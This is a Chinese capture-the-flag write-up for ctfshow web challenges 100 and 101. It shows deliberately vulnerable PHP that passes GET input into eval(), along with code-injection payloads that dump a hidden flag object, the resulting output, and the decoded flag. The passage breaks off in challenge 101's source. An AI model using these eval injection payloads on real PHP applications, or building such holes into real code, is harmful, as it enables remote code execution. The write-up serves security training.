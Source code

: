 +++

#### 100

```php
<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
?>
```

题目说`flag in class ctfshow;` 所以我们只需打印出这个变量就好了(当然也可以直接tac文件，这里是为了学新函数)

然后你会发现用`echo`和`print`都不行，因为ctfshow是一个结构体，下面了解一个函数

<font color='purple'>**var_dump** </font>

此函数用于打印结构体

下面构造payload

`?v1=1&=var_dump($ctfshow)/*&v3=*/;`

利用/**/过滤`('ctfshow')`并构造闭合

或者

`?v1=1&v2=var_dump($ctfshow)?>&v3=;`

看到这个想法你就会发现，写入任何一句话的命令都可以了

得到的是



```
object(ctfshow)#1 (3) { ["dalaoA"]=> NULL ["dalaoB"]=> NULL ["flag_is_c05662c10x2db6480x2d4d250x2d8c150x2dd7b35d33a01f"]=> NULL } ('ctfshow');
```

将那串长字符串里面的0x2d换成`-`，用`ctfshow{}`包起来就ok了

#### 101

```php
<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
```